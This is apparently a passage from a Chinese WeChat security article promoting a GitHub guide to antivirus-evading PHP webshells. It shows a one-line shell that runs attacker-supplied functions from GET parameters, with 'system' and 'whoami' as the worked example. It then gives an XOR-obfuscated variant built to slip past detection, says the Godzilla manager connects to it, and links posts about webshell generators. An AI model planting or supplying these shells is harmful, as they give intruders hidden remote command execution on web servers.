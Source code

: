     
    
    $_GET['a']($_GET['b'])

当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样

  * 

    
    
    system('whoami');

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：

  * 

    
    
    <?=~$_='$<>/'^'{{{{';$___='$+4(/' ^ '{{{{{';@${$_}[_](@${$___}[__]);
    
    
      
    

直接用 Godzilla 哥斯拉来连接，如下：

![](https://gitee.com/fuli009/images/raw/master/public/20230624181202.png)

当然这里使用到 `assert` 高危函数，只能用于 `php` 在 `5.*` 的版本，相关姿势读者不妨自行拓展一下哈哈~

所以你学废了吗？更多有趣的WebShell免杀案例等我后续更新~

  

  

 ****

 **下载地址**

 **项目地址：https://github.com/AabyssZG/WebShell-Bypass-Guide**

 **  
**

 **点击最下方名片进入公众号**  

 **  
**

# **  往期推荐**  

[爬网站JS文件，自动fuzz
api接口，指定api接口](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485069&idx=1&sn=e94bad6d0f927441b7cb5c533d2e369d&chksm=fcedb22acb9a3b3cfb57e9d40f8898c51fa4c9fa3562bd112b5d489f9cba5cf81637d1558b53&scene=21#wechat_redirect)  

[生成各类免杀webshell适合市面上常见的几种webshell管理工具、冰蝎、蚁剑、哥斯拉](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485058&idx=1&sn=ac47be9a9d0c6aba0ec991e5213a903e&chksm=fcedb225cb9a3b3312a895ec7da3819216fde632546b644f943a6b31c3b6efa6db3624f6edf7&scene=21#wechat_redirect)  

[一款新的webshell管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485049&idx=1&sn=e02753cc60ea620882710bf9cf7b23b0&chksm=fcedb2decb9a3bc82b6dc1d9da9bc9c112ceedf608732c8d3338b04c4ffa5b44ebe28355272c&scene=21#wechat_redirect)  
